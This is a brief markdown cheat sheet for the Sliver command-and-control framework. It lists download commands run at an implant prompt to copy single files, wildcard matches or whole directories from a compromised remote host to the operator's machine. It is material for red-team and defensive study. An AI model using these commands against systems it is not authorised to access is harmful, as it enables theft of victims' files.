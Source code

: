 # Sliver

## Download Files

* Download single file.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/`

- Download multiple files using wildcard.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/`

- Download multiple files in a directory recursively.

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`

- Download the whole directory. It'll compress into a tarball archive file (`.tar`).

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`